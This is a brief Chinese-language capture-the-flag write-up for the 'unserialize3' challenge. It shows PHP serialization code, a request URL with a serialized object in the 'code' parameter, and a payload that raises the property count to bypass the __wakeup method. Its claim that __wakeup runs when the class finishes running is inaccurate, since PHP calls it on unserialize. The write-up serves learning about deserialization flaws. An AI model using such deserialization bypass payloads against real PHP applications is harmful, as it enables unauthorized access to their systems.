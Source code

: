 

# unserialize3

* 根据网页提示后面应该是用code传输数据

* 根据题目提示unserialize
``` 
<?php

// your code goes here
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
}
$a=new xctf();
echo(serialize($a));
```

* 构造访问请求
``` 
http://220.249.52.133:53611/index.php?code=O:4:%22xctf%22:1:{s:4:%22flag%22;s:3:%22111%22;}
```

* __wakeup 在 类运行结束自动调用，我们进行报错输出，简单的把需要序列化的数量设置为多数就行
``` 
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```
